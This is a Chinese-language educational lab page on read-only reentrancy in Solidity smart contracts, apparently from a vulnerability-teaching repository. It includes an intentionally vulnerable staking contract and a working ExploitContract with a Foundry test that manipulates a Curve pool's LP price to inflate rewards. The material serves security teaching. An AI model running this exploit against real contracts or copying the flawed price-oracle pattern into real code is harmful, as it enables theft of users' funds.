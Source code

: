 # 只读可重入  
[ReadOnlyReentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ReadOnlyReentrancy.sol)  
**名称：** 只读可重入性漏洞  
**描述：**  
只读重入性漏洞是智能合约设计的一个缺陷，这允许攻击者利用函数的“只读”特性对合约的状态进行意外的更改。  
具体来说，当攻击者通过ICurve合约的remove_liquidity函数触发ExploitContract中的receive函数时，就会出现这种漏洞。这是通过通过一个安全的智能合约“A”的外部调用，调用攻击者合约的fallback()函数来实现的。  
通过这种漏洞，攻击者获得了在fallback()函数内对目标合约“B”执行代码的能力，而合约“B”与合约“A”间接相关。合约“B”从合约“A”中推导出LP代币的价格，使其容易收到操纵，并且通过重入攻击导致意外的价格变化。  

**修复建议：**  
避免在只读函数中进行任何的状态修改操作。  
**Makerdao的例子：**  
```
// 如果在状态修改pool函数执行期间被调用，这将被回滚。
if (nonreentrant) {
uint256[2] calldata amounts;
CurvePoolLike(pool).remove_liquidity(0, amounts);
}
```
**参考**  
https://twitter.com/1nf0s3cpt/status/1590622114834706432  
https://chainsecurity.com/heartbreaks-curve-lp-oracles/  
https://medium.com/@zokyo.io/read-only-reentrancy-attacks-understanding-the-threat-to-your-smart-contracts-99444c0a7334  
https://www.youtube.com/watch?v=0fgGTRlsDxI  


**VlunContract:**  
```
contract VulnContract {
    IERC20 public constant token = IERC20(LP_TOKEN);
    ICurve private constant pool = ICurve(STETH_POOL);

    mapping(address => uint) public balanceOf;

    function stake(uint amount) external {
        token.transferFrom(msg.sender, address(this), amount);
        balanceOf[msg.sender] += amount;
    }

    function unstake(uint amount) external {
        balanceOf[msg.sender] -= amount;
        token.transfer(msg.sender, amount);
    }

    function getReward() external view returns (uint) {
        //根据池子LP代币的当前虚拟的价格奖励代币
        uint reward = (balanceOf[msg.sender] * pool.get_virtual_price()) /
            1 ether;
        // 省略代码来转移奖励代币
        return reward;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/ReadOnlyReentrancy.sol -vvvv  
```
// 测试VulnContract合约中只读重入漏洞的函数
function testPwn() public {
    // 通过漏洞合约将10个ether质押到VulnContract合约
    hack.stakeTokens{value: 10 ether}(); 
    // 对VulnContract合约执行只读重入攻击
    hack.performReadOnlyReentrnacy{value: 100000 ether}();
}

// 利用VulnContract合约只读重入漏洞的合约
contract ExploitContract {
    //与ICurve和IERC20合约交互的接口
    ICurve private constant pool = ICurve(STETH_POOL);
    IERC20 public constant lpToken = IERC20(LP_TOKEN);
    // 待攻击的VulnContract合约
    VulnContract private immutable target;

    // 初始化vulnerable合约
    constructor(address _target) {
        target = VulnContract(_target);
    }

    // 质押LP代币到VulnContract合约的函数
    function stakeTokens() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池添加流动性并且接受LP代币作为回报
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 记录添加流动性后的LP代币的价格
        console.log(
            "LP token price after staking into VulnContract",
            pool.get_virtual_price()
        );
        // 批准VulnContract合约代表此合约花费LP代币
        lpToken.approve(address(target), lp);
        // 将LP代币质押到VulnContract合约中
        target.stake(lp);
    }

    // 对VulnContract合约执行只读重入攻击的函数
    function performReadOnlyReentrnacy() external payable {
        // 作为流动性添加到Curve池中的金额
        uint[2] memory amounts = [msg.value, 0];
        // 向Curve池添加流动性并且接受LP代币作为回报
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // 在移除流动性之前记录LP代币的价格
        console.log(
            "LP token price before remove_liquidity()",
            pool.get_virtual_price()
        );
        // 移除流动性时收到的最低金额
        uint[2] memory min_amounts = [uint(0), uint(0)];
        // 从Curve池中移除流动性，这将触发receive函数
        pool.remove_liquidity(lp, min_amounts);
        // 记录移除流动性后LP代币的价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price after remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录将从VulnContract收到的奖励金额
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is not invoked: ", reward);
    }

    // Fallback function that will be triggered when removing liquidity from the Curve pool
    //从Curve池中移除流动性时将触发的Fallback函数
    receive() external payable {
        // 在移除流动性期间记录LP代币的价格
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price during remove_liquidity()",
            pool.get_virtual_price()
        );
        // 记录将从VulnContract收到的奖励金额
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is invoked: ", reward);
    }
}
```  
**红色框：** 攻击成功，价格被操控  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Ff974125e-47d0-42ca-89bc-1d9ef7608094%2FUntitled.png?table=block&id=db05153a-1fed-46f6-91fe-6a1caae5e036&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc578eed0-e82d-4179-8cd2-75c3e921fdf9%2FUntitled.png?table=block&id=a9136681-055a-42b9-80e0-4f2b2ebbe0d8&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)